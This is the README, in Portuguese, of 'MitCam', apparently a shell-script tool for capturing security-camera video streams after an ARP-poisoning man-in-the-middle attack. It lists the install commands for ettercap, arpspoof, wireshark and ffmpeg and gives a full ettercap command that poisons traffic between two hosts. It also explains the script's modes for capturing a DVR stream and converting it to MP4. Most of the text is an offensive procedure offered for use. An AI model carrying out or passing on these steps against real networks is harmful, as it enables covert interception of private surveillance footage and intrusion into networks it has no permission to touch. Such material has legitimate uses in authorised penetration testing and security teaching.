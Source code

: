 # MitCam

  Após um ARP poisoning em uma rede com câmeras de segurança, é possível (muitas vezes) capturar o Stream que está sendo transmitido em direção ao DVR ou a própria máquina de monitoramento. Em uma situação onde o Stream é enviado de um DVR, podemos interceptar a comunicação entre o ele e o cliente, identificar as portas de saída de dados, filtrar apenas o necessário e colocar tudo dentro de um arquivo.
  Em geral, os reprodutores de vídeo não reproduzem Stream. Por conta disso, convertemos nosso arquivo para um MP4. 

## Preparação:

Instale as dependências para o ataque:
`apt update`
`apt install ettercap arpspoof wireshark ffmpeg`
`git clone https://github.com/MZTBTG/mitcam.git`
`cd mitcam`
`chmod +x mitcam.sh`

Utilizando uma ferramenta como `ettercap` ou `arpspoof`, realize um ataque MitM entre seus alvos:
`ettercap -TqSM arp /192.168.180.150// /192.168.180.101//`

## Modo de uso:

`./mitcam.sh c [IP] [porta] [NomeArquivoSaida]`
  O comando que se inicia com **c** captura o stream de acordo com os dados que você adicionou na sintaxe.


`./mitcam.sh d [nomeDoArquivoCapturado] [nomeDoArquivoDeSaída] {vlc}`
  O comando que se inicia com **d** converte o arquivo de Stream capturado para mp4. É possível reproduzir automaticamente o vídeo digitando "vlc" no fim do comando
